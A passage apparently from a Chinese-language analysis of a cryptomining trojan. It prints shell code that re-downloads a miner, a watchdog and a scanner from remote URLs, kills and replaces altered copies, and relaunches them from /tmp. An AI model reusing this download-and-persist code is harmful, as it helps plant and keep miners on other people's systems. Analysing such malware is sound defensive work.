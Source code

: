 	    if [ -f "/etc/sysguard" ]
	    then
	            filesize1=`ls -l /etc/sysguard | awk '{ print $5 }'`
	            if [ "$filesize1" -ne "$watchdog_size" ] 
	            then
	                pkill -f sysguard
	                rm /etc/sysguard
	                downloads $watchdog_url /etc/sysguard $watchdog_url_backup
	            else
	                echo "not need download"
	            fi
	    else
	            downloads $watchdog_url /etc/sysguard $watchdog_url_backup
	    fi
	
	    downloads $sh_url /etc/update.sh $sh_url_backup
	
	    if [ -f "/etc/networkservice" ]
	    then
	            filesize2=`ls -l /etc/networkservice | awk '{ print $5 }'`
	            if [ "$filesize2" -ne "$scan_size" ] 
	            then
	                pkill -f networkservice
	                rm /etc/networkservice
	                downloads  $scan_url /etc/networkservice $scan_url_backup
	            else
	                echo "not need download"
	            fi
	    else
	            downloads $scan_url /etc/networkservice $scan_url_backup
	    fi
在下载了配置文件config.json、挖矿木马程序sysupdate、守护程序sysguard、网络连接程序networkservice后，通过ls -l命令的第五个参数得到文件大小，然后与挖矿路径得到的config_size等参数对比完整性，是否需要重新下载。



```
    ps -fe|grep sysupdate |grep -v grep
        if [ $? -ne 0 ]
            then
                echo "not tmp runing"
                cd /tmp
                chmod 777 sysupdate
                sleep 5s
                ./sysupdate &
            else
                echo "tmp runing....."
        fi
	ps -fe|grep networkservice |grep -v grep
        if [ $? -ne 0 ]
            then
                echo "not tmps runing"
                cd /tmp
                chmod 777 networkservice
                sleep 5s
                ./networkservice &
            else
                echo "tmps runing....."
        fi

    ps -fe|grep sysguard |grep -v grep
        if [ $? -ne 0 ]
            then
                echo "not tmps runing"
                cd /tmp
                chmod 777 sysguard
```